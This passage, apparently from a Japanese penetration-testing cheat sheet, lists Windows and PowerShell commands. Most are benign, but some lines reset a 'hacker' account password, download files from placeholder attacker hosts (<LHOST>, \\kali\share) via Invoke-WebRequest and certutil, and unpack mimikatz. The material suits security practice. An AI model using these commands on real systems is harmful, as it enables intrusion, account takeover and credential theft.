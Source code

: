 - パスワード変更
```bash
net user hacker newpassword
```
```bash
net user /domain hacker newpassword
```

### コンパイル
```bash
gcc hello.c -o hello.exe
```

## PowerShell

### プロパティの確認方法

1. Get-Member を使用する
```bash
Get-Process | Get-Member
```

2. Select-Object -Property * を使用する
```bash
Get-Process | Select-Object -First 1 -Property *
```

### プロパティを確認してからの使用例

- 例1: Get-Process のプロパティを使用する
```bash
Get-Process | Select-Object -Property Name, CPU
```

- 例2: Where-Object で条件を指定する
```bash
Get-Process | Where-Object -FilterScript { $_.CPU -gt 0.1 }
```

### Web
- Download
```bash
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>
```
```bash
iwr -uri http://lhost/file -Outfile file
```
```bash
certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```
```bash
copy \\kali\share\file .
```

### ファイル操作
- 解凍
```bash
Expand-Archive -Path .\mimikatz.zip
```
